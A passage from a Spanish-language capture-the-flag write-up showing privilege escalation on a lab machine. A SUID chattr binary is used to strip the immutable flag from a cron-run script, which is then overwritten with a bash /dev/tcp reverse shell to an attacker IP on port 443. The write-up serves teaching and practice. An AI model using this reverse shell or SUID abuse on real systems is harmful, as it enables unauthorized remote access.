 ![shelldredd process](../../../assets/images/zerotrace/shelldreddprocess.png)

```raw
CMD: UID=1003  PID=1475  | /bin/sh -c /bin/bash /opt/.nobodyshouldreadthis/destiny
```

Al examinar el binario `destiny`, parece que podemos modificarlo y no contiene ningún script, por lo que probablemente ese proceso esté mostrando un error. Sin embargo, al intentar modificarlo no podremos ya que tiene el flag de inmutable de los atributos especiales del sistema de ficheros EXT.

```bash
lsattr /opt/.nobodyshouldreadthis/destiny
```

![destiny inmutable](../../../assets/images/zerotrace/inmutable.png)

Utilizamos el binario `chattr` con permisos SUID para quitar el flag de inmutable.

```bash
chattr -i /opt/.nobodyshouldreadthis/destiny
```

![destiny no inmutable](../../../assets/images/zerotrace/inmutable2.png)

Ahora podemos modificar el archivo `destiny`, añadiendo un shell inverso que apunte a nuestra máquina atacante en el puerto 443.

```bash
echo 'bash -i >& /dev/tcp/192.168.1.181/443 0>&1' > /opt/.nobodyshouldreadthis/destiny
```
